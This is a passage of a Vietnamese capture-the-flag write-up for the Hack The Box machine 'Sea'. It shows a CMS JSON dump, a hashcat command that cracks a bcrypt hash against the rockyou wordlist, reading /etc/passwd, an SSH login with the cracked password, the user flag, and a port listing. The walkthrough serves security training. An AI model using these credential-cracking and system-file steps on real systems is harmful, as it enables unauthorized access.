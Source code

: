 ```
        },
        "logoutToLoginScreen": {}
    },
    "pages": {
        "404": {
            "title": "404",
            "keywords": "404",
            "description": "404",
            "content": "<center><h1>404 - Page not found<\/h1><\/center>",
            "subpages": {}
        },
        "home": {
            "title": "Home",
            "keywords": "Enter, page, keywords, for, search, engines",
            "description": "A page description is also good for search engines.",
            "content": "<h1>Welcome to Sea<\/h1>\n\n<p>Hello! Join us for an exciting night biking adventure! We are a new company that organizes bike competitions during the night and we offer prizes for the first three places! The most important thing is to have fun, join us now!<\/p>",
            "subpages": {}
        },
        "how-to-participate": {
            "title": "How to",
            "keywords": "Enter, keywords, for, this page",
            "description": "A page description is also good for search engines.",
            "content": "<h1>How can I participate?<\/h1>\n<p>To participate, you only need to send your data as a participant through <a href=\"http:\/\/sea.htb\/contact.php\">contact<\/a>. Simply enter your name, email, age and country. In addition, you can optionally add your website related to your passion for night racing.<\/p>",
            "subpages": {}
        }
    },
    "blocks": {
        "subside": {
            "content": "<h2>About<\/h2>\n\n<br>\n<p>We are a company dedicated to organizing races on an international level. Our main focus is to ensure that our competitors enjoy an exciting night out on the bike while participating in our events.<\/p>"
        },
        "footer": {
            "content": "©2024 Sea"
        }
    }
}
```
Dùng hashcat để mò ra mật khẩu là `hashcat -m 3200 ~/hashcat/target.txt ~/wordlist/rockyou.txt` thì ra được password là `mychemicalromance`, tôi mở file `/etc/passwd` thì ra được có 3 user là có vẻ có thể ssh vào:
```
www-data@sea:/var/www/sea$ ^[[A
cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
amay:x:1000:1000:amay:/home/amay:/bin/bash
geo:x:1001:1001::/home/geo:/bin/bash
```
Khi đăng nhập `amay` với mật khẩu `mychemicalromance` thì vào được:
```
amay@sea:~$ cat user.txt
1a8662094374a0fa323ee8ef3255469b
```
Tôi check xem các port nào đang sử dụng trên server:
```
amay@sea:~$ ss -ltnp
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port   Process   
LISTEN    0         4096             127.0.0.1:8080             0.0.0.0:*                
LISTEN    0         511                0.0.0.0:80               0.0.0.0:*                
```